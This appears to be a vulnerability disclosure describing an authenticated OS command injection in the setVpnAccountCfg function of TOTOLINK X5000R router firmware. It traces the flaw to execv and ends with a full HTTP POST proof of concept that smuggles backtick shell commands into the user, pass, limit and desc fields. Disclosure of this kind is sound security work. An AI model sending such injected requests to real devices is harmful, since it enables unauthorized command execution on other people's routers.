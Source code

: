 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /web/cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setVpnAccountCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setVpnAccountCfg` (at 0x414734), binary /web/cgi-bin/cstecgi.cgi. These parameters ( `user`, `pass`, `limit`, `desc`) are passed to the `Uci_set_str` function without any check.

![](setVpnAccountCfg.png)

The `Uci_Set_Str` function is located in `libcscommon.so`. This function formats the fourth parameter into a string and passes it to the `CsteSystem` function, which eventually calls the `execv` function to execute it.

![](Uci_Set_Str().png)

![](CsteSystem().png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 225
Origin: http://192.168.0.1
Connection: keep-alive
Referer: http://192.168.0.1/advance/account.html?timestamp=1733739239593

{"type":"3","user":"123`ls>/tmp/1`","pass":"123`ls>/tmp/2`","limit":"1`ls>/tmp/3`","desc":"123`ls>/tmp/4`","addEffect":"1","ipaddr":"","subnet":[{"ipaddr":"","mask":""}],"accessLimit":"0","topicurl":"setVpnAccountCfg","token":"022874401695c70dc41bee226599ed69"}
```
